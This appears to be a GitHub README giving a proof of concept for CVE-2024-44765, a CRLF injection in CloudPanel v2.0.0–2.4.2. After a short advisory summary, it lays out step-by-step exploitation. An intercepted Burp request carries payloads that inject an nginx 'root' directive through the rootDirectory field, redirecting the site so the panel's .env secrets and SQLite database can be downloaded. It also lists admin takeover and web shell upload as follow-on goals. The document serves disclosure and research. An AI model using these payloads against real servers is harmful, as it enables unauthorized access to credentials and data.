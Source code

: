 # Proof of Concept (PoC) for Cloudpanel [CRLF Injection / CVE-2024-44765]

## 📖 Introduction
> A CRLF injection vulnerability in MGT-COMMERCE GmbH CloudPanel v2.0.0 to v2.4.2 allows low privilege attackers to escalate privileges and access sensitive information via manipulation of the Nginx configuration file.
> <br> [!] Low Privilege user also could directly modify its vhost configuration to retrieve sensitive data. [!]

---

## 🔍 Overview

- **Researcher:** [Your Name](https://github.com/EagleTube)
- **CVE ID:** CVE-2024-44765
- **Vulnerability Type:** CRLF Injection
- **Affected Products:** v2.0.0 - 2.4.2
- **Severity:** High
- **Fix Available:** No

---

## 🛠️ Technical Details

A detailed technical description of the vulnerability, including:
- The root cause of this issue when user are not restrict modifying vhost nginx configuration
- The vulnerability occur when attacker which have low privilege manipulate the nginx configuration by change its document root to main cloudpanel document root
- After change the root folder in nginx configuration , attacker could download .env and .sq3 sqlite file in main clp directory

## 🚨Post Exploitation
- Data Breach
- Admin Account Take Over
- Secret Key Exposure
- Web Shell upload
- Privilege Escalation

### Vulnerability Documentation:

- This vulnerability require at least lower privileges in cloudpanel, follow this step to achieve the CRLF injection

1. **Step 1**: Access the cloudpanel with your user:

2. **Step 2**: Click manage and check Root Directory input:

3. **Step 3**: Click save and intercept the request via burp suite:

4. **Step 4**: Leaking sensitive data.

    4.1 **Step 4.1**: (leak secret token) From the site_domain_settings[rootDirectory] parameter query put payload like below.
        ```
        site_domain_settings[rootDirectory]=yourdomain.my;%0aroot%20/home/clp/htdocs/app/files
        ```
   
    4.2 **Step 4.2**: (leak sqlite db) From the site_domain_settings[rootDirectory] parameter query put payload like below.
        ```
        site_domain_settings[rootDirectory]=yourdomain.my;%0aroot%20/home/clp/htdocs/app/data
        ```
   
5. **Step 5**: Open your website and your root directory have change now you just put .env or db.sq3.
   ```
   https://yourdomain.my/.env | https://yourdomain.my/db.sq3
   ```
